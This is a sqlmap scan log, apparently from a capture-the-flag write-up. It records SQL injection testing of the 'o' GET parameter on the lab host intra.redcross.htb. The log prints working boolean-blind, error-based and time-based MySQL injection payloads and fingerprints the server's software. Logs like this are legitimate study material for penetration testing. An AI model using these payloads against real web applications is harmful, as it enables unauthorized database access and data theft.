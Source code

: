 ``` text
[23:13:41] [INFO] testing 'MySQL inline queries'
[23:13:41] [INFO] testing 'MySQL > 5.0.11 stacked queries (comment)'
[23:13:42] [CRITICAL] considerable lagging has been detected in connection response(s). Please use as high value for option '--time-sec' as possible (e.g. 10 or more)
[23:13:43] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[23:13:43] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP - comment)'
[23:13:44] [INFO] testing 'MySQL > 5.0.11 stacked queries (query SLEEP)'
[23:13:44] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query - comment)'
[23:13:45] [INFO] testing 'MySQL < 5.0.12 stacked queries (heavy query)'
[23:13:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind'
[23:14:18] [INFO] GET parameter 'o' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable
[23:14:18] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:14:19] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:14:32] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[23:14:33] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[23:14:36] [INFO] target URL appears to have 4 columns in query
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[23:15:03] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[23:15:16] [INFO] target URL appears to be UNION injectable with 4 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n]
[23:15:44] [INFO] testing 'MySQL UNION query (50) - 21 to 40 columns'
[23:15:57] [INFO] testing 'MySQL UNION query (50) - 41 to 60 columns'
[23:16:09] [INFO] testing 'MySQL UNION query (50) - 61 to 80 columns'
[23:16:22] [INFO] testing 'MySQL UNION query (100) - 81 to 100 columns'
GET parameter 'o' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 379 HTTP(s) requests:
---
Parameter: o (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: o=1') RLIKE (SELECT (CASE WHEN (8600=8600) THEN 1 ELSE 0x28 END)) AND ('enlR'='enlR&page=app

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=1') AND (SELECT 8275 FROM(SELECT COUNT(*),CONCAT(0x7162766b71,(SELECT (ELT(8275=8275,1))),0x71766a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND ('vOvX'='vOvX&page=app

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: o=1') AND SLEEP(5) AND ('YqZg'='YqZg&page=app
---
[23:16:40] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[23:16:40] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0
[23:16:40] [INFO] fetched data logged to text files under '/home/xbytemx/.sqlmap/output/intra.redcross.htb'

[*] ending @ 23:16:40 /2019-03-18/
```
